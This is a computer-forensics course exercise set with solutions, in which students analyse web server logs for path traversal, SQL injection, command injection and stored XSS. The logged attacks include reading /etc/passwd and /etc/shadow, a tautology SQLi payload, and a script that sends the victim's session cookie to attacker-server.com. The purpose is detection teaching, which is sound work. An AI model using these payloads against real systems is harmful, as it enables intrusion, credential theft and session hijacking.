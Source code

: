 # Web Attack Forensics Challenges

This document provides practical exercises for a computer forensics class, focusing on identifying evidence of web-based attacks from log files.

## Very Basic: Path Traversal

**Objective:** Analyze a web server access log to find evidence of a path traversal attack.

### Student Instructions

You are given a web server log file, `access.log`. An attacker has attempted to access a sensitive file on the server. Your task is to identify which file the attacker tried to read.

**Hints:**
- Path traversal attacks use `../` sequences to navigate outside of the intended web root directory.
- Look for unusual requests that don't follow the normal application paths.

### Solution

The simplest way to find the attack is to search for the traversal sequence `../` in the log file.

```bash
grep "../" access.log
```

This command will highlight the malicious line:
`10.0.0.5 - - [10/Oct/2023:10:02:15 +0000] "GET /images/../../../../etc/passwd HTTP/1.1" 200 1121`

From this, you can see the attacker attempted to access the `/etc/passwd` file.

---

## Basic: SQL Injection (SQLi)

**Objective:** Identify a SQL injection payload within URL parameters in a web server log.

### Instructions

You are analyzing `access.log`. An attacker tried to bypass authentication or extract data using SQL injection. Your task is to find the exact payload they used.

**Assets:***Hints:**
- SQL injection attacks often include SQL keywords like `OR`, `UNION`, `SELECT`, or characters like `'` and `--`.
- Payloads in URLs are almost always URL-encoded. `%27` is the code for a single quote (`'`) and `%20` is the code for a space.

### Solution

First, search for common SQL keywords or characters. Searching for the URL-encoded single quote (`%27`) is a good starting point.

```bash
grep "%27" access.log
```

This returns the line:
`10.1.1.8 - - [12/Nov/2023:14:31:30 +0000] "GET /users.php?id=105%27%20OR%20%271%27=%271 HTTP/1.1" 200 800`

To understand the payload, you need to URL-decode it. You can do this with Python:

```python
python3 -c "from urllib.parse import unquote; print(unquote('105%27%20OR%20%271%27=%271'))"
```

The decoded payload is: `105' OR '1'='1`.

---

## Intermediate: Command Injection

**Objective:** Detect a command injection attack and identify the command the attacker executed.

### Student Instructions

You are given `access.log`. The server hosts a `ping.php` script that allows users to ping an IP address. An attacker has exploited this script to run an unauthorized command on the server. Find out what command they executed.

**Hints:**
- Command injection attacks use shell metacharacters to chain commands together. Common examples are `;`, `&&`, `|`, and `||`.
- These characters will be URL-encoded in the log file. The semicolon (`;`) is encoded as `%3b`.

### 3. Solution

Search for the URL-encoded semicolon (`%3b`) to find the malicious request.

```bash
grep "%3b" access.log
```

This gives you the line:
`10.2.2.9 - - [15/Dec/2023:11:06:00 +0000] "GET /tools/ping.php?host=8.8.8.8%3b%20cat%20/etc/shadow HTTP/1.1" 200 250`

Now, URL-decode the payload to see the full command:

```python
python3 -c "from urllib.parse import unquote; print(unquote('8.8.8.8%3b%20cat%20/etc/shadow'))"
```

The decoded command is `8.8.8.8; cat /etc/shadow`. The injected command is `cat /etc/shadow`.

---

## Advanced: Stored XSS and Cookie Theft

**Objective:** Trace a stored Cross-Site Scripting (XSS) attack from the initial injection to the final exfiltration of a user's cookie by analyzing two different log files.

### Student Instructions

An admin's session cookie was stolen. You are given two log files: `victim_server.log` from the application server and `attacker_server.log` from a server controlled by the attacker. Your task is to trace the attack and determine the value of the stolen cookie.

**Hints:**
- This is a multi-stage attack. First, find out how the attack was planted (the injection). Then, see how the data was stolen (the exfiltration).
- Look for `<script>` tags in the victim's log. This is the stored XSS payload.
- Analyze the script to see what it does. It sends data to `attacker-server.com`.
- Look in the attacker's log for the incoming request from the victim.

### 3. Solution

**Step 1: Find the XSS payload in the victim's log.**

Search for `<script>` in `victim_server.log`.

```bash
grep "<script>" victim_server.log
```

This reveals the malicious POST data:
`"comment=<script>document.location='http://attacker-server.com/steal.gif?c='+document.cookie;</script>"`

This script steals the `document.cookie` and sends it to `http://attacker-server.com/steal.gif` as a query parameter `c`.

**Step 2: Find the stolen cookie in the attacker's log.**

Now, look at `attacker_server.log` for the request to `steal.gif`.

```bash
grep "/steal.gif" attacker_server.log
```

This returns the line:
`192.168.1.1 - - [20/Jan/2024:18:10:01 +0000] "GET /steal.gif?c=sessionid=aBcDeFgHiJkLmNoPqRsTuVwXyZ HTTP/1.1" 200 1`

The IP address `192.168.1.1` matches the admin who viewed the page in the victim log. The stolen cookie is the value of the `c` parameter: `sessionid=aBcDeFgHiJkLmNoPqRsTuVwXyZ`.
